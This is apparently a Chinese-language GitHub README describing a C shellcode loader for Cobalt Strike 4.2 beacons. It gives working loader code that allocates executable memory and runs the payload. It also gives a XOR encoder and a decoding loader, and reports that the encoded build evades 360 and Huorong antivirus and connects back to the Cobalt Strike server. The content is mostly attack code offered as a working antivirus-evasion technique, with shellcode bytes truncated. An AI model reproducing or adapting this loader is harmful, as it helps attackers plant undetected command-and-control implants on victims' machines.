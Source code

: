 # 0x00 简介
原理：c语言实现的loader  
测试的杀软：360全家桶、火绒  
CS：Cobalt Strike 4.2  
Metasploit：暂未测试

# 0x00 结论
能过360全家桶、火绒  

# 0x01 注意
360杀毒关闭：用户体验、程序错误、可疑文件  
360安全卫士关闭：用户体验、云安全、网址云安全  
火绒关闭：用户体验  

# 0x02 过程
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式）  
生成的代码如下  
```
/* length: 833 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60...";
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目  
c语言实现loader，代码如下
```
#include <windows.h>
#include <stdio.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";

int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;//xor key
int b = sizeof(buf);
unsigned char str[891] = { 0 };//shellcode size

int main() {
    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );//xor key
    }
    
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008 R2下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
